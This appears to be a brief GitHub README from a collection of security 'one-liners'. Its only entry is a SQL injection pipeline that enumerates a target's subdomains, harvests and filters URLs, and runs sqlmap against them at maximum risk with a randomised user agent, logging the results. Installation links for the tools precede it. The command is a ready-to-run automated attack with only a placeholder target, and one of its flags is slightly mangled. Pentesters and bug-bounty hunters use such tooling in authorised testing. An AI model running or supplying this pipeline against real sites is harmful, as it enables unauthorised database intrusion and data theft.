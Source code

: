 # One-Liner-Collections
This Repositories contains list of One Liners with Descriptions and Installation requirements

─────────────────────────────────────────────────────────────────────────────────────



# SQL Injection

## Installation Requirements
1. Subfinder : https://github.com/projectdiscovery/subfinder 
2. GAU       : https://github.com/lc/gau
3. GF        : https://github.com/tomnomnom/gf

## OneLiner
```
subfinder -d http://TARGET.com -silent -all | gau - blacklist ttf,woff,svg,png | sort -u | gf sqli >gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli_report.txt
```
